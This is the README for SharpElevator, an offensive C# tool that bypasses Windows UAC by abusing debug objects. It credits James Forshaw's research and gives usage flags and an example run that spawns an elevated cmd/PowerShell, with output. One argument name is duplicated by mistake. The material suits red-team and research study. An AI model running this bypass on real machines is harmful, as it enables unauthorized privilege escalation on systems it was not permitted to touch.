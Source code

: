 # Sharp Elevator

SharpElevator is a C# implementation of [Elevator](https://github.com/Kudaes/Elevator) by Kurosh Dabbagh Escalante for UAC bypass.

This UAC bypass was originally discovered by James Forshaw [(@tiraniddo)](https://twitter.com/tiraniddo) and published in his brilliant post at:
[https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

## Usage
  SharpElevator.exe [/command:<command to execute>] [/arguments:<command line arguments>] 
                           [/unelevatedpath:<path>] [/elevatedpath:<path>] [/nowindow] [/newconsole]

### Arguments
    [/command:<command to execute>]        Sets the command to executed in an elevated contex. 
                                           Defaults to cmd.exe.

    [/arguments:<command line arguments>]  Sets the command line arguments.
                                           Defaults to blank.

    [/unelevatedpath:<path>]               Sets the path of a sacrificial program to launch in an unelevated context.
                                           Defaults to C:\Windows\System32\notepad.exe

    [/unelevatedpath:<path>]               Sets the path of a sacrificial auto-elevated program.
                                           Defaults to C:\Windows\System32\taskmgr.exe

    [/nowindow]                            Sets the NoWindow flag for the new process.
                                           Defaults to false.

    [/newconsole]                          Sets the NewConsole flag for the new process.
                                           Defaults to false.

### Example

```
    ..>SharpElevator.exe /command:cmd.exe /arguments:"/ c powershell.exe" /newconsole

        [+] Unelevatad process created(C:\Windows\System32\notepad.exe)
        [+] Reference to debug object obtained
        [+] Terminated unelevated process
        [+] Detached debug object from unelevetad process
        [+] Elevatad process created(C:\Windows\System32\taskmgr.exe)
        [+] Initial process creation debug event retrieved
        [+] Obtained full access handle to elevated process
        [+] Terminated elevated process
        [+] Detached debug object from elevetad process
        [+] WOOT! Created elevated process cmd.exe /c powershell.exe
```